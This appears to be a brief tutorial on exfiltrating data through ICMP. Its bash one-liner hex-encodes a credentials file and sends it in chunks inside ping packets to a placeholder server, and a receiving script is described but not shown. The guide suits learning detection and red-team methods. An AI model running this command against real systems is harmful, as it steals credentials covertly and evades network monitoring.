 # Data Exfiltration via ICMP

<code style="color : greenyellow">Step 1 )> Run the following command on the client server from linux command line to read the target file in fixed-size chunks and sent each chunk to our server (8 bytes) by embedding it into ICMP packets, effectively exfiltrating the data bit by bit.:</code>
```bash
xxd -p -c 8 creds.txt | while read h; do ping -c 1 -p $h <Server-IP>; done
```

<img width="1409" height="552" alt="icmp_1" src="https://github.com/user-attachments/assets/fdbe63ae-18b0-450f-8bd2-ee8d4d881f8e" />


Step 2 )> Run the ```icmp.py``` script on your server to capture incoming ICMP packets and extract the embedded data, and then reassemble the original file to reconstruct it fully.

<img width="1333" height="329" alt="icmp_2" src="https://github.com/user-attachments/assets/43263079-232e-4410-a0ac-a949d2a6b28f" />


**Disclaimer: This is for educational and defensive use only. Do not perform unauthorized testing, exploitation, or data exfiltration against systems you do not own or have explicit written permission to test.**
